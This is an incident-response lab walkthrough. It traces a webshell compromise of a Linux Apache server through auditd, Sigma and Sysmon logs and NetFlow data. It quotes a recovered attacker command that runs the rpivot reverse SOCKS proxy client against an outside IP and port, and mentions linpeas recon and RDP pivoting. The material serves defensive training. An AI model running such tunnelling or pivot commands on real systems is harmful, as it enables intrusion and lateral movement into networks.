# 🚶 Walkthrough – alpha-linux-audit-log

This walkthrough guides you through the step-by-step investigation of a compromised Linux web server in Lab 6.3 using `auditd`, `Sysmon`, `Zircolite`, and NetFlow data.

---

## 🧭 Task 1: Navigate to the Lab Directory

> ⚠️ *This step is specific to the lab setup used in the course and may differ in other environments. The key takeaway is that you must navigate to the directory containing your scripts and logs before beginning your investigation.*

### 1️⃣ Change to the Lab Directory

```bash
cd /path/to/lab/script
```

📸 *(Insert screenshot here)*

This is the starting point where all scripts, logs, and config files for Lab 6.3 are located.

---

## 🧭 Task 2: Review Linux Audit Configuration

### 2️⃣ Open `audit.rules`

```bash
gedit audit.rules &
```

* Lines 1–45: Comments and rule setup
* Line 32: `-D` clears existing rules
* Lines 46+: Begin custom rules (from Florian Roth)

**Focus: Lines 306–311**
These audit rules log **reconnaissance activity**:

| Line Range | File Type    | Action (`-p`) | Purpose                             |
| ---------- | ------------ | ------------- | ----------------------------------- |
| 306–309    | Executables  | `x` (execute) | Monitor recon commands (e.g., `id`) |
| 310–311    | Config Files | `r` (read)    | Monitor reads of `/etc/issue`, etc. |


>💡 *Allows easy review of what system activities are being logged by auditd.*


>💡 *These rules watch for attacker behavior using common recon tools or files.*
---

## 🧭 Task 3: Review the Audit Log from Compromised host.

### 3️⃣ Summary of Captured Events

```bash
aureport --input ./audit.log --summary
```

>💡 *Useful for getting a quick overview of what kinds of system events were captured (Displays counts of logins, executed commands, etc.*


### 4️⃣ Summary Report Grouped by Key

```bash
aureport --input audit.log --key --summary
```

View activity tagged with rules like `recon`, `sbin_susp`, etc.


>💡 *Shows which types of activity (like recon, execution, etc.) occurred most frequently.*


### 5️⃣ View Raw Audit Log

```bash
gedit audit.log &
```

Useful for inspecting structure: each event may span multiple `type=` lines with a shared `event ID`. In addition, some fields (like proctitle) in audit logs look hard to read — they’re in hex format.


>💡 *For viewing the raw structure of logged events and identifying specific entries.*

---

### 6️⃣ Decode a Hex proctitle w/ xxd or Cyberchef

```bash
echo -n "<hex_value>" | xxd -r -p ; echo
```


>💡 *Reveals the real command behind a suspicious `proctitle` log field.*

---

### 7️⃣ Use ausearch to Investigate
Manually converting hex to ASCII is tedious, but `ausearch -i` can do it for you by auto-decoding values and resolving IDs.

Let’s focus on a single event tagged with `sbin_susp` (suspicious use of privileged system binaries).

First, view it **without** `-i` to see the raw data. Then re-run **with** `-i` to compare decoded output.

#### Raw Output

```bash
ausearch --input audit.log -k sbin_susp
```

>💡 *Shows raw entries for potentially suspicious privileged binary usage.*
>
>💡 *Results show 5 different records for Event ID 152873. The 1st record is the type PROCTITLE and the proctitle field which is hex-encoded.*

#### Decoded Output

```bash
ausearch --input audit.log -k sbin_susp -i
```

>💡 *Searches for events tagged sbin_susp and decodes hex + ID fields for easier readability.*
>
>💡 *proctitle is now readable*

* `-i` interprets hex, timestamps, UIDs
* Example output: `timeout 1 tcpdump`

---

## 🧭 Task 4: Detection with Sigma Rules

### 8️⃣ Run Zircolite with Audit Rules

```bash
zircolite --events audit.log --ruleset rules/alpha_rules_linux.json --auditd
```

>💡 *Used for local threat detection auditd tells Zircolite how to parse the log format.*
>
>📁 *Output saved to `detected_events.json`*
>
>🗝️ *Key detections: 177× Webshell Remote Command Execution and 11× System Info Discovery

### 9️⃣ Review Sigma Detection Results

```bash
gedit detected_events.json &

```
#### First Flagged Event


>💡 *This event indicates that a shell (/usr/bin/dash) was executed, and its parent was process 29453*

#### Second Flagged Event

>💡 *This confirms that the sh shell (PID 138330) launched linpeas.sh, showing a clear escalation of activity*
>
>💡 *Together with the first flagged event, this provides a parent-child chain: → 29453 (initial payload) → sh → linpeas.sh

### ❓ What Happened?
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;A script named `linpeas.sh` was executed — a common recon tool used after compromise.

### 🔎 How do we Know

- **Event 1** shows a process (`sh`) launching with **PID `138330`** and **parent PID `29453`**.  
  This suggests a shell was spawned, possibly via a webshell or command injection.

- **Event 2** shows the same **PID `138330`** now acting as the **parent** of a new process — `linpeas.sh`,  
  confirming that the attacker used the shell to run the recon script.

---

### 🔍 Search for linpeas activity in logs with ausearch 

```bash
ausearch --input audit.log -i | grep linpeas
```

>💡 *Searches interpreted audit log entries for any mention of linpeas.sh or related activity.*
>
>💡 *Observed EXECVE and PROCTITLE events indicating that sh executed `./linpeas.sh.` (also reviewed in: `gedit detected_events.json`)*
>
>💡 *Which revealed the parent process had: parent process ID: `29453`*

### 🔍 Investigate parent process with ausearch

```bash
ausearch --input audit.log -p 29453 -i
```

Investigate suspicious process trees from PID 29453 → leads to `client.py`


>💡 *Executable: `/usr/sbin/apache2`*
>
>💡 *Command Line: `apache2 -k start`*
>
>💡 UID/GID: `www-data` (typical of a web server process)*
>
>💡 *These audit entries confirm that the parent is the web server process `/usr/sbin/apache2`*

---

## 🧭 Task 5: Analyze Command Frequency by `www-data` user account

### 🔢 List All Commands by Apache User

```bash
ausearch --input audit.log -ui 33 -i | grep -oP proctitle=.* | sort | uniq -c | sort -n > all-www-data-processes.txt
```

>💡 *Good for spotting unusual or rarely used commands executed by the web server.*

### 📝 Open Summary File

```bash
gedit all-www-data-processes.txt &
```

At the Top: uncommon commands prefixed with a `1` (e.g., `linpeas.sh`)*




At the Bottom: frequent commands (e.g., `client.py`, `python3`)


>❓ *what is this Python Command `python3 client.py --server-ip 20.106.124.93 --server-port 8889` Doing?*

###🔍 Discovery: Suspicious Python Client Script

The command `python3 client.py --server-ip 20.106.124.93 --server-port 8889`  indicated a potential outbound connection to a remote host. To investigate further, open-source research was conducted.
---

### 🌐 Open Source Intelligence (OSINT)

A web search for `client.py --server-ip --server-port` led to the finding of a GitHub repository for `rpivot`.

### 🛠️ Tool Identified: rpivot

**rpivot** is a reverse SOCKS proxy.

It is used by attackers to pivot into internal networks by creating a tunnel from the compromised host to a remote attacker's system.

**Components:**
- `client.py` — runs on the **victim machine**
- `server.py` — runs on the **attacker's system**

### 🔎 Filtering for Attacker Activity as www-data

Filter string to see any related commands executed on the server by user www-data

```bash
ausearch --input audit.log -ui 33 -i | grep -oP proctitle=.* | grep rpivot
```


>💡 *Filters audit logs for commands run by www-data that include the word rpivot.*
>
>💡 *rpivot is a known pivoting/backconnect tool sign of post-exploitation.*
>
>💡 *Suspicious GitHub Activity The Apache service account (`www-data`) cloned a GitHub repo very unusual.
>
>💡 *The repo: rpivot2*
>
>💡 *A Python based SOCKS proxy tool used to forward traffic through one host to another (pivoting)*
>
>💡 *Not normal for a Web server. Likely part of an lateral movement*

### 🔎 Identify recon activity by www-data user

```bash
ausearch --input audit.log -ui 33 -k recon -i | grep -oP proctitle=.*
```

Shows recon commands executed by www-data that match the "recon" Sigma rule tag.


>💡 *Look for things that show signs of system discovery, like hostname, cat /etc/issue, or uname -a .*

## 🧭 Task 6: Compare with Pre-Intrusion Log
Analyzing an older audit log (before the attack) to compare normal behavior.

### 📊 Summary of Clean Log

```bash
aureport --input archive-audit.log --summary
```
### Pre-Intrusion

>💡 *Helps establish a baseline of normal activity before the intrusion.*
>
>💡 *43,134 events over ~34 hours*

### Post-Intrusion (From earlier)

>💡 *41,020 events over ~17.5 hours*
>
>💡 *Similar volume, but much more activity in less time post-compromise = Suspicious.*

 
### 🔍 Analyze www-data Usage (Pre-Attack)

#### Pre-Attack
```bash
ausearch --input archive-audit.log -ui 33 -i | grep -oP proctitle=.* | sort | uniq -c | sort -n
```

>💡 *Lists and counts each unique command executed by www-data (UID 33) during the clean 34-hour period.*
>
>📄 *Normal activity: only `/usr/sbin/apache2` run 202 times*
>
>📄 *No recon or suspicious tools observed*

#### Post-Attack
```bash
gedit all-www-data-processes.txt &
```


>💡 * A ton of unusual or rarely used commands executed by the web server.*

---
| **Category**                  | **Pre-Intrusion (`archive-audit.log`)**                | **Post-Intrusion (`audit.log`)**                                        |
|------------------------------|--------------------------------------------------------|-------------------------------------------------------------------------|
| **Log Duration**             | ~34 hours                                              | ~17.5 hours                                                             |
| **Total Events**             | 43,134 events                                          | 41,020 events                                                           |
| **Commands Run by www-data** | Only `/usr/sbin/apache2`                               | Dozens, including `bash`, `linpeas.sh`, `client.py`, `rpivot2`, `git clone`, etc. |
| **# of www-data Commands**   | 202 executions (all Apache)                            | Many unique commands, several executed multiple times                  |
| **Recon/Attack Tools**       | None                                                   | `linpeas.sh`, `hostname`, `cat /etc/issue`, etc.                        |
| **Indicators of Compromise** | None                                                   | Remote shell behavior, GitHub repo cloning, pivot tools                |


## 🧭 Bonus: Sysmon for Linux + Network Logs

### 🗃️ Open Human-Readable Sysmon Log

```bash
gedit sysmon4linux.log &
```
#### Open converted Sysmon for Linux log file in Gedit for easier analysis.

>💡 *large File — allow time to load. Shows detailed security-related events in readable format.*
>

### 📡 Search Raw XML in Syslog

```bash
zcat syslog | grep "20:26:25.230" | grep 61051
```
#### Locate raw Sysmon XML event

>💡 *Searches the compressed syslog file for the raw XML event using a timestamp and process ID.*
>
>💡 *Use this to find the original event structure as written by Sysmon for Linux.*

Search for `client.py` activity:

```bash
grep -B 10 "client\.py" sysmon4linux.log
```

📸 *(Insert screenshot showing Sysmon event block)*


---

## 🧭 Final Step: Confirm Network Pivoting

### 🧪 Filter RDP Traffic from NetFlow

```bash
head -1 netflow-data/pcap-derived-netflow.txt > netflow-rdp.txt

grep ":3389 " netflow-data/pcap-derived-netflow.txt | grep TCP >> netflow-rdp.txt
```

### 📖 Review Filtered Connections

```bash
gedit netflow-rdp.txt &
```

**Findings:**

* Source: `10.130.8.94` (Linux web server)
* Destination: `10.130.9.42` (Windows file server)
* Protocol: TCP/3389 (RDP)
* Observation: Large data transfer → likely exfiltration

📸 *(Insert NetFlow screenshot)*

---

## ✅ Investigation Complete

This walkthrough covered:

* `auditd` log analysis
* Zircolite + Sigma detection
* Sysmon correlation
* NetFlow pivot detection

Return to `README.md`, `FINDINGS.md`, or `TIMELINE.md` for full documentation.
